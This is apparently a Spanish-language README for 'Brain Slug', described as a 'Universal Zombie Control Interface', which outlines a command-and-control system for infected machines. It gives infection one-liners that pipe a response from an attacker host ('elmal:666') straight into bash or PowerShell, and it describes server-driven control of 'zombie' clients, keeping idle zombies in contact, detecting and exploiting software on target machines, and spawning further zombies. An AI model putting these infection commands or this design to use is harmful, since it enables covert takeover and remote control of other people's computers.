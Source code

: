 Brain Slug
==========

Universal Zombie Control Interface


Dev Install
-----------

.. code-block:: bash

    pipenv install


Concepto
--------

Brain Slug consta de varias partes más pequeñas:

* Un código de infección de la máquina que hace un curl | interpreteX
* Una sesión de servidor con la que se puede controla el flujo sin que el
  cliente tenga ningún tipo de lógica


Infección
~~~~~~~~~

Esta se lleva a cabo a través de un curl:

.. code-block:: bash

    curl "http://elmal:666/register" | bash

Incluso en windows 10:

.. code-block:: powershell

    curl "http://elmal:666/register" | powershell.exe


Servidor
~~~~~~~~

En el servidor se gestiona para cada cliente su estado en la ejecución.
De forma que cuando un cliente pregunte por la siguiente operación a
ejecutar el servidor se lo da de forma correcta.

A parte de ejecutar operaciones el servidor siempre debe enviar la
siguiente instrucción para que el agente pueda funcionar.

Las operaciones pueden enviar como respuesta a las ejecuciones el
resultado de la evaluación de la operación al servidor para que se
guarden en el servidor. O pueden enviar otra orden para que se guarden
en la memoría del cliente. De esta forma el estado esta compartido entre
ambos sistemas pero el control de flujo esta completamente del lado del
servidor.

Todo el código ejecutado desde el servidor debe estar traspilado al
interprete del cliente, en una primera versión se hará un recetario con
plantillas como validar la prueba de concepto.


Ideas secundarias
-----------------

Se puede tener una app de parking con los clientes zombies para los que
no se tenga todavía trabajo de forma que ocupen pocos recursos y nos
aseguremos que no se pierde el contacto con los mismos.

Se pueden tener diferentes flujos y applicaciones de forma que un zombie
pueda ejecutar diferentes "caminos" de ejecución dependiendo de su
naturaleza. Por ejemplo, una applicacione que detecte si existe un
software en la máquina objetivo y otra aplicación especializada en su
explotación.

Se pueden tener meta aplicaciones que orquesten multi tareas en un
zombie o multi zombie. Para esto se necesita abrir un fork en la máquina
remota que instancie un nuevo zombie.


PoC 1
-----

La poc consiste en los siguientes aplicaciones y todo lo necesario para
implementarlas:

* Lista el directorio: Ejecuta un os.listdir('.') y devuelve el
  resultado en un zombie.
